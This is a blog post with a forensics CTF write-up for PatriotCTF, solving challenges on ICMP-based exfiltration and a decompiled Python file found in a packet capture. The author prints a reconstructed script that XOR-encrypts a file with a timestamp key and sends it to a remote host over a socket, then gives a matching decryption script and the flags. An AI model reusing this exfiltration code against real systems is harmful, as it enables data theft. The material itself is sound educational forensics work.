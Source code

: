 ```yaml
---
layout: post
title:  Patriot CTFs
tags: [Forensics]
date:   2024-08-12 00:00:00
excerpt: "Patriot CTFs"
feature: https://raw.githubusercontent.com/raviyelna/raviyelna.github.io/master/assets/img/background.jpg
categories: CTFs
---
```

# PatriotCTFs
## Solved by Raviel 
### Forensics
#### SimpleExfiltration

![]({{site.url}}/Writeup_images/PCTF/Simple Exfiltration/SimpleExfiltration.png)

The Challenge say something about Exfiltration so I will be looking for the most suspicious conversation
as you can see here the total of bytes tranfered betweetn ip.addr==192.168.237.132 && ip.addr==192.168.237.1 is kinda large, so let filter them out first
![]({{site.url}}/Writeup_images/PCTF/Simple Exfiltration/image.png)
after checking out the whole conversation between these two I found nothing suspicious with HTTP, TCP but I knowticed that there a lot of ping between them so I filter them out
And guess what They hid the flag inside these packet.
![]({{site.url}}/Writeup_images/PCTF/Simple Exfiltration/image copy.png)
Look through all these IMCP packet you will get the flag
pctf{time_to_live_exfiltration}
---
#### Slingshot
![]({{site.url}}/Writeup_images/PCTF/Slingshot/Slingshot.png

The challenge gave us a pcapng file open it up immediately check the export object, you can see there a pyc file name download, FYI PYC is an compiled Python Script so you have to find some decompiler such [this](https://github.com/zrax/pycdc)

![]({{site.url}}/Writeup_images/PCTF/Slingshot/image1.png

(do it by yourself, I'm to lazy to do it again so here the source code of that Python that I reconstructed)
```py
import sys
import socket
import time
import math

# Create a socket object
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Command-line arguments
file = sys.argv[1]  # file path
ip = sys.argv[2]    # IP address
port = 22993        # fixed port

# Open the file in binary mode and read its contents
with open(file, 'rb') as r:
    data_bytes = r.read()

# Generate a key from the current time
current_time = math.floor(time.time())
key_bytes = str(current_time).encode('utf-8')

# Adjust key length to match the data length
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]

# XOR encryption
encrypt_bytes = bytes(a ^ b for a, b in zip(key_bytes, data_bytes))

# Connect to the server and send the encrypted data
s.connect((ip, port))
s.send(encrypt_bytes)

# Close the socket
s.close()
```
So you can see, its encrypt a file with the current stamptime then send it through port 22993, okay so what do we need to do now?

As we far we have known that it encrypted a file then send through port 22993, we can know filter the port 22993 to get the file back: 

![]({{site.url}}/Writeup_images/PCTF/Slingshot/image2.png

This look like a file that got sent and we also have the timestamp from wireshark **You should check the author or CTFs event tiemezone before decrypting the file because I myself have been using my timezone until one of my teammate Quanda found the correct timestamp of it**

![]({{site.url}}/Writeup_images/PCTF/Slingshot/image3.png

with that I used this script and got the Flag from an image

```py
import sys
import socket
import time
import math
import binascii

timestamp = 1726595769 

# Read the encrypted data from enc.txt
with open('enc.txt', 'r') as file:
    encrypted_hex_string = file.read().strip()

# Remove spaces/newlines and decode from hex
encrypted_data = binascii.unhexlify(encrypted_hex_string.replace('\n', ''))


key_bytes = str(timestamp).encode('utf-8')


init_key_len = len(key_bytes)
encrypted_data_len = len(encrypted_data)
temp1 = encrypted_data_len // init_key_len
temp2 = encrypted_data_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]

# XOR decryption
data_bytes = bytes(a ^ b for a, b in zip(key_bytes, encrypted_data))


with open('decrypted_file.bin', 'wb') as w:
    w.write(data_bytes)
```

![]({{site.url}}/Writeup_images/PCTF/Slingshot/image4.png

---
#### Secret Note
![]({{site.url}}/Writeup_images/PCTF/Secret_Note/Secret_Note.png